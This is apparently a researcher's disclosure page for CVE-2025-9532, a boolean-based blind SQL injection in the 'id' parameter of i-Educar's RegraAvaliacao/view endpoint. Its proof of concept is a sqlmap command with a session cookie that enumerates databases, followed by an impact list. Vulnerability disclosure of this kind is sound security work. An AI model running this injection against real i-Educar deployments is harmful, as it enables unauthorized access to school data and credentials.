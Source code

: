 ## CVE-2025-9532: SQL Injection (Boolean-Based) Vulnerability in `id` Parameter on `/RegraAvaliacao/view?id=[id]` Endpoint

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/arts/sqlInjectionBanner.png)

[![](https://img.shields.io/badge/🌸-CVE--2025--9532-dd53bc)](https://www.cve.org/CVERecord?id=CVE-2025-9532) ![](https://img.shields.io/badge/i--Educar-SQL_Injection-291b3e) [![](https://img.shields.io/badge/💜-Found_by:_Karina_Gante-AA07FF)](https://karinagante.github.io/) ![](https://img.shields.io/badge/%F0%9F%9A%A8-Critical_Severity-ff0000) [![](https://img.shields.io/badge/🧬-Member_of:_CVE--Hunters-6407ab)](https://www.cvehunters.com/)

### 📝 Summary

<p align="justify">A SQL Injection vulnerability was identified in the <code>RegraAvaliacao/view?id=[id]</code> endpoint of the i-Educar application, specifically in the <code>id</code> parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.</p>

---

### 🔎 Details

➤ Vulnerable Endpoint: `RegraAvaliacao/view?id=[id]`

➤ Parameter: `id`

<p align="justify">The application fails to properly validate and sanitize user input in the <code>id</code> parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.</p>

---

### 📚 PoC

#### ➤ Step by Step:

<p align="justify">Install sqlmap tool and type the command below:</p>

##

#### ➤ Payload:

````html
sqlmap -u "http://localhost:8086/module/RegraAvaliacao/view?id=1" -p id --cookie="i_educar_session=qEk2wbjxS5IbECJGqnIa0dbmIyI3XIsXqm3WSh6K" \ --dbms=PostgreSQL --technique=B --dbs --batch
````

##

<p align="justify">sqlmap begins to test a lot of SQLi in <code>id</code> parameter until find a <code>boolean-based blind</code>:</p>

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/SQLi6.png)

##

<p align="justify">Some time after, sqlmap will list of available databases confirming that SQLi:</p>

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/SQLi7.png)

##

<p align="justify">Still using sqlmap and discovering tables and columns it becomes possible to enumerate this information:</p>

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/SQLi8.png)

---

### ⚠️ Impact

##

<p align="justify">
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Unauthorized data access: Reading sensitive information such as credentials, personal data, or configuration details.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Database enumeration: Extracting database schema, tables, and column details.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Data manipulation: Adding, modifying, or deleting database records.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Stealing credentials: Attackers can steal a user's credentials.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Denial of Service (DoS): Using time-based queries to impact system availability.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Potential escalation to RCE: If combined with other vulnerabilities and specific database features.
</p>

---

### 🔗 References

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/logos/cve.png) ➤ [https://www.cve.org/CVERecord?id=CVE-2025-9532](https://www.cve.org/CVERecord?id=CVE-2025-9532)

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/logos/vulDB.png)➤ [https://vuldb.com/?id.321551](https://vuldb.com/?id.321551)

---

### 🕵🏻‍♀️ Finder

*Discovered with💜 by [Karina Gante](https://karinagante.github.io/).* 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

##

*Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹*
